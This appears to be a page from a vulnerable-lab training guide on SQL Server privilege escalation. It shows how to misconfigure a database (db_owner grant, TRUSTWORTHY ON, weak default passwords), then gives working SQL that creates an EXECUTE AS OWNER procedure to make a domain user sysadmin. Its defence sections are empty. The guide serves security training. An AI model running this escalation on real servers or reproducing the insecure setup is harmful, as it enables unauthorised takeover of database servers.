# DB-Owner

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (3) (1) (1) (2).png>)

3\. Login with the `sa` user using the password `sa` or `Password1!` (Depending if you changed it for another vulnerability)

![](<../../../../.gitbook/assets/image (30) (1) (1) (1).png>)

4\. Click “New Query” button and use the SQL query below to make `Amsterdam\Richard` database owner of the `production` database.

![](<../../../../.gitbook/assets/image (10) (1) (2) (1).png>)

```
Use Production;
EXEC sp_addrolemember [db_owner], [AMSTERDAM\Richard];
```

5\. Change the Owner of the database to the SA account. Right click on "Production", click "Properties" and open the "Files" tab. Click on the "..." and fill in "sa" and click on "OK"

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

6\. Execute the following query to make sure `Amsterdam\Richard` is Database owner and the real Owner of the database is `sa`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

SELECT suser_sname(owner_sid) FROM sys.databases WHERE name = 'Production'
```

![](<../../../../.gitbook/assets/image (68) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (53) (1) (1) (1).png>)

7\. Set the database as trustworthy and check if it is:

```
ALTER DATABASE MyAppDb SET TRUSTWORTHY ON
```

![](<../../../../.gitbook/assets/image (65) (1) (1) (1) (1) (1) (1).png>)

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1) (1).png>)

The `1` after `Production` shows us that the database is `ThrustWorthy`.

## Attacking

### How it works

If the database is set as trustworthy and we have db\_owner privileges, we could elevate our privileges and execute queries as sa.

### Tools

* [HeidiSql](https://www.heidisql.com/)

### Executing attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (58) (1) (1) (1) (1) (1).png>)

4\. Click "OK" on the security Issue warning.

#### Prerequisites

5\. Click on the "Query" tab and enter the following Query to check if we are `db_owner`:

```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

![](<../../../../.gitbook/assets/image (66) (1) (1) (1) (1) (1) (1) (1).png>)

Our current user `AMSTERDAM\richard` is db\_owner.

6\. Check who is the owner of the database.

```
SELECT suser_sname(owner_sid), * FROM sys.databases
```

![](<../../../../.gitbook/assets/image (59) (1) (1) (1) (1) (1) (1).png>)

`sa` is the owner of the `production` database.

6\. Check if the database is set to trustworthy

```
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;
```

![](<../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The Production database is trustworty.

#### Executing the attack

7\. Create a stored procedure which will add `AMSTERDAM\Richard` as sysadmin.

```
USE Production;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'AMSTERDAM\Richard','sysadmin'
```

![](<../../../../.gitbook/assets/image (57) (1) (1) (1) (1).png>)

8\. Execute the stored procedure:

```
USE Production;
EXEC sp_elevate_me
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

9\. Check if we are sysadmin:

```
SELECT is_srvrolemember('sysadmin')
```

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1) (1).png>)

The `1` means that we are sysadmin! Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

#### Cleanup

1. Login to WEB01 as Administrator, start the "Microsoft SQL Server Management Studio" and login as Administrator.
2. Execute the following query:

```
EXEC sp_dropsrvrolemember 'AMSTERDAM\Richard','sysadmin';
DROP PROCEDURE sp_elevate_me;
```

## Defending

### Recommendations



### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}
